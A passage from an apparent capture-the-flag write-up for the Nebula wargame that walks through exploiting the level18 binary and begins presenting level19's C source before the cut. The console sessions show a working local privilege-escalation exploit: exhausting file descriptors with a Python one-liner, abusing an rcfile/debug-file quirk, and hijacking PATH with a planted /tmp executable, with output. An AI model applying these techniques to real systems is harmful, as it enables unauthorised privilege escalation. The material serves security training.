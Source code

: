 {% highlight console %}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
/tmp/flag18/debug: line 1: Starting: command not found
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
{% endhighlight %}

Heavens, it worked - sort of. Notice the */tmp/flag18/debug: line 1: Starting: command not found*? That's because our *rcfile* is set to be our debug file. So 
it writes to the debug file and then the shell will try to execute it. As we know
the first line in the file is *Starting up. Verbose level = 1*, so all we really
need to do to quash that error we need to create an executable with that name.
Inside that we will run out beloved `getflag`

{% highlight console %}
level18@nebula:/home/flag18$ echo getflag > /tmp/Starting
level18@nebula:/home/flag18$ chmod +x !$
chmod +x /tmp/Starting
level18@nebula:/home/flag18$ export PATH=${PATH}:/tmp
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
{% endhighlight %}

The harder ways are beyond what I can do, but for those interested in 
circumventing `FORTIFY_SOURCE` you can read [A Eulogy for Formatting Strings](http://phrack.org/issues/67/9.html). I'll be re-reading that for sure.

## Flag 19 ##

> There is a flaw in the below program in how it operates. 

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

